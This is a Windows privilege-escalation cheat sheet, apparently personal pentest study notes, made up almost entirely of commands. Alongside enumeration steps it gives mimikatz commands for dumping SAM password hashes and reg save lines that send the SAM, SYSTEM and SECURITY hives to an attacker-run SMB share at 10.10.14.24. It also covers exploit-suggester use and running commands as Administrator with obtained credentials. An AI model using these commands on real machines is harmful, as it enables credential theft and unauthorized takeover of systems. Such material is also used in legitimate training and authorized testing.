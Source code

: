 ```yaml
---
title: Windows_PE
permalink: /Windows/PE
---
```

third-party driver exploits are more common. As such, we should always attempt to investigate this attack surface first before resorting to more difficult attacks.


## Use directory
```c:\windows\system32\spool\drivers\color\```

## Basic Infos  
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

## to find credentials ##  
https://guif.re/windowseop#EoP%203:%20ClearText%20passwords%20(quick%20hits)

## get most recent files ##

```PS > Get-ChildItem C:\ -Recurse | sort-Object -Descending -Property LastWriteTime | select -First 100```

## List Running Services

```C:\Users\student>tasklist /SVC```


## See if JuicyPotato can be used
```whoami /priv````


#Enumerating Networking Information
```C:\Users\student>ipconfig /all```
#get network routing tables
```C:\Users\student>route print```


## View active network connections
```C:\Users\student>netstat -ano```
```C:\>netstat -ano | findstr TCP | findstr ":0"```

## Then
``C:\>tasklist /v | findstr <pid>``

# Powershell alternative
``C:\powershell -c "Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess"``
#then searchsploit the process
#to search the found executable
``where /R C:\Users CloudMe*``

## inspect firewall
```C:\Users\student>netsh advfirewall show currentprofile```
#list firewall rules
```C:\Users\student>netsh advfirewall firewall show rule name=all```

## Enumerating scheduled tasks  
```c:\Users\student>schtasks /query /fo LIST /v```

## List drives (not seen by winPEAS)
```wmic logicaldisk get deviceid, volumename, description```  
```net shares```  
```powershell -c get-psdrive -psprovider filesystem```

## Get readable files and directories
```accesschk.exe -uws "Everyone" "C:\Program Files"```
```PS C:> Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}```  

#to see if a user can be accessed through Evil-WinRM
```c:>net user robisl | findstr "Remote Management Use"```

```c:\Users\student>mountvol```

#analyze systeminfo
```./windows-exploit-suggester.py --update```
```./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt``` 

#Enumerating Binaries That AutoElevate
```c:\Users\student>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer```  
```c:\Users\student>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer```


To dump hash. Local Admin required
```mimikatz.exe  
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam```

 Dump hash via smb. Only if already admin of the machine
```kali>smbserver.py share . -smb2support -username df -password df```
```net use \\10.10.14.24\share /u:df df```
```reg save HKLM\sam \\10.10.14.24\share\sam```
```reg save HKLM\system \\10.10.14.24\share\system```
```reg save HKLM\security \\10.10.14.24\share\security```

## To execute command as administrator, once password is obtained ##   
```C:\>$user = "Administrator"``` 
```C:\>$pwd = ConvertTo-SecureString "MyP@55w0rd" -AsPlainText -Force```  
```C:\>$cred = New-Object System.Management.Automation.PSCredential($user,$pwd)```  
```C:\> runas /user:Administrator "C:\Windows\System32\cmd.exe```
